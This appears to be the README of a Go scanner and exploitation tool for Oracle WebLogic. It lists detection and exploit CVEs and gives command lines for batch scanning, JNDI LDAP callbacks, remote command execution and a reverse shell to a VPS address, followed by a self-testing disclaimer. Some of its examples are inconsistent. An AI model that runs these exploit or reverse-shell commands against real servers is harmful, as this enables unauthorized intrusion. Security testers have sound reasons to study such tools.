 # 👻WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

# 🐳使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
```

+ POC一键检测
```go
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ 批量检测
```go
WeblogicScanner.exe -f "C:\Users\Test\Desktop\target.txt" -p 7001 -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2023-21839
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 14882

//cve-2020-2883
//cve-2020-2555
//cve-2016-0638
//cve-2016-0315
//cve-2017-3248
//cve-2018-2628
//cve-2018-2893
//cve-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883

//cve-2020-2889
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c -ri <vps_ip> -rp <VPS_PORT> -e 2889
```

# 👮免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# 📷参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839